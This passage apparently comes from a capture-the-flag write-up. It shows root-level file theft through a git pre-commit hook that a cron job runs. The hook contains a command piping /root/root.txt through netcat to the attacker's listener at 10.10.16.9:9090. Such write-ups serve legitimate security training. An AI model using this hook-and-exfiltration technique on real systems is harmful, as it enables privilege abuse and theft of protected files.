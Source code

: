 Like before a basic `netcat` outgoing connector doesn't work so we'll need to use a different method of connection. After MANY attempts at trying to get a stable outgoing connector, I decided to simply echo out the `root.txt` file and would cicle back around to the shell connection.

First, lets create a file called `pre-commit` in `~/.git/hooks`. Next we put our commands to be run in that file - mine looks like this:

```bash
cat /root/root.txt | nc 10.10.16.9 9090
```
Then we'll start up a listener on port 9090 and wait for the cron job to run.

![root](/images/opensource/opensource13.png)

There we have it, the root flag!
